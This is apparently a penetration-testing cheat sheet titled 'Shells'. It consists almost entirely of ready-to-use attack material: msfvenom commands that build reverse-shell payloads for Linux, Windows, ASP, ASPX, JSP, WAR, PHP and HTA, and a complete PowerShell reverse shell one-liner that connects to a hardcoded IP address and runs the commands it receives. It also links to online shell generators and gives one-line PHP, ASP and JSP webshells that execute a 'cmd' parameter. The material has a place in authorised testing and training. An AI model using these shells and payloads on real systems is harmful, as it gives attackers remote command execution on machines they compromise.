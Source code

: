 # Shells

## Reverse shells


#### Linux - MSFVenom
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

#### Windows - MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

#### Powershell
```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### ASP
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```
#### ASPX
```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```
#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```
#### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```
#### PHP
```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```
#### HTA
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f hta-psh > shell.hta
```

#### Online Generator
<https://www.revshells.com/>

<https://weibell.github.io/reverse-shell-generator/>



## Single line Webshell

#### PHP
```
<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```
#### ASP
```
<% eval request("cmd") %>
```
#### JSP
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
